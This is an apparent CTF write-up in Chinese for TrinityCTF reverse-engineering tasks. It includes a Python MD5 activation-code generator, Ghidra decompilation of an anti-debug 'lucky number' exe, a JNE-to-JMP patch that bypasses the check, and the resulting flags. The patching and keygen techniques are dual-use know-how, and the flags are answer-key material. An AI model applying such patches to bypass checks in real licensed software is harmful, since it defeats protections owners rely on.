|---|
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16 | import hashlib
def md5_calc(account):
account += "@nju.edu.cn"
# 计算md5
md5_hash = hashlib.md5(account.encode('utf-8')).digest()
# 转换为十六进制字符串
code = md5_hash.hex().upper()
return code
account = "itsc"
code = md5_calc(account)
print(f"code: {code}")
|
拿到激活码 15F00E032036724774CF4A2D2CA7C63C

即 Flag
| flag{15F00E032036724774CF4A2D2CA7C63C}
|
RE03-幸运数字
非常规解法注意，和本题的正解几乎没有关系
I'm so sorry...
下发了一个 exe 文件，尝试进行交互，猜测这个幸运数字是个随机数，猜不中的：

注意到提示：
你可能需要了解一下 [TLS（线程本地存储）] 和 [IsDebuggerPresent]
似乎是对动态调试操作有所反制，所以依旧尝试 Ghidra 静态分析。先搜索一下字符串：

发现有填写正确的庆祝语字符串，定位函数 FUN00401450：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66 | void __fastcall FUN_00401450(undefined4 param_1,int *param_2)
{
HANDLE hHandle;
uint uVar1;
int iVar2;
int iVar3;
HANDLE unaff_EDI;
uint uStack_54;
int iStack_4c;
DWORD DStack_48;
uint auStack_40 [15];
auStack_40[0xe] = DAT_00404000 ^ (uint)&stack0xfffffffc;
FUN_004013b0();
/* WARNING: Bad instruction - Truncating control flow here */
Sleep(1000);
auStack_40[0] = 0xba637da0;
auStack_40[1] = 0x8c445f89;
auStack_40[2] = 0x112970aa;
auStack_40[3] = 0xe2ca658f;
auStack_40[4] = 0xbc46a994;
auStack_40[5] = 0x7289dd5c;
auStack_40[6] = 0x21bd739f;
auStack_40[7] = 0x71233bc;
auStack_40[8] = 0x67cd6608;
auStack_40[9] = 0xf80e72bb;
auStack_40[10] = 0xfa7003e0;
auStack_40[0xb] = 0xfdc39c15;
auStack_40[0xc] = 0x6e7aeeb0;
auStack_40[0xd] = 0x34;
FUN_00401020("welcome to TrinityCTF\n");
hHandle = (HANDLE)FUN_004013b0();
Sleep(1000);
uVar1 = func_0x00401080();
srand(uVar1);
iVar2 = rand();
FUN_00401020("input your lucky number:\n");
iVar3 = FUN_00401050(&UNK_00403174);
if (iVar3 != 1) {
FUN_00401020("invalid input\n");
WaitForSingleObject(hHandle,0xffffffff);
CloseHandle(unaff_EDI);
TlsFree(DStack_48);
func_0x004016c3();
return;
}
if (iStack_4c == iVar2) {
FUN_00401020("Congratulations, you guessed right!\n");
FUN_004013b0();
/* WARNING: Bad instruction - Truncating control flow here */
Sleep(1000);
FUN_00401090(auStack_40,(int *)0xd,0x404060,0);
uVar1 = auStack_40[0xd];
FUN_00401020(&UNK_004031b0);
for (uStack_54 = 0; uStack_54 < uVar1; uStack_54 = uStack_54 + 1) {
putchar((uint)*(byte *)((int)auStack_40 + uStack_54));
}
FUN_00401020(&UNK_004031b8);
FUN_00401020("Is that really right?");
}
else {
FUN_00401020("number error\n");
}
return;
}
|
先不管我如何输入正确的数字才能得到 Flag，我们重点关注这一段：
1
2
3
4
5
6
7
8
9
10
11
12
13 | if (iStack_4c == iVar2) {
FUN_00401020("Congratulations, you guessed right!\n");
FUN_004013b0(aDStack_48,aDStack_48 + 1);
Sleep(1000);
FUN_00401090(0x404060,0);
uVar1 = uStack_c;
FUN_00401020(&UNK_004031b0);
for (uStack_54 = 0; uStack_54 < uVar1; uStack_54 = uStack_54 + 1) {
putchar((uint)abStack_40[uStack_54]);
}
FUN_00401020(&UNK_004031b8);
FUN_00401020("Is that really right?");
}
|
你是说，判定为猜数正确，输出 Flag 只有一个 if (iStack_4c == iVar2) 的验证吗？
尝试找到对应的汇编代码：


我们进行修改：


把 JNE 0x00401670 修改为 JMP 0x004015b1，导出修改后的 exe 文件打开


于是得到了 Flag
| flag{c0ngr4tul4t1ons_th1s_1s_3z_lucknumb3r_4nd_xte4}
|
（其实我也关注了一下 Flag 是怎么解码得到的，似乎包含 XTEA 加密过程，但是我一直没有进展，于是选择了改汇编码的 patch 方案）
（为了拿到 Flag 不择手段了 😈）
Appendix
有点遗憾自己是第一天下午才决定参加比赛的，不然可以拿 RE 的三个一血
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}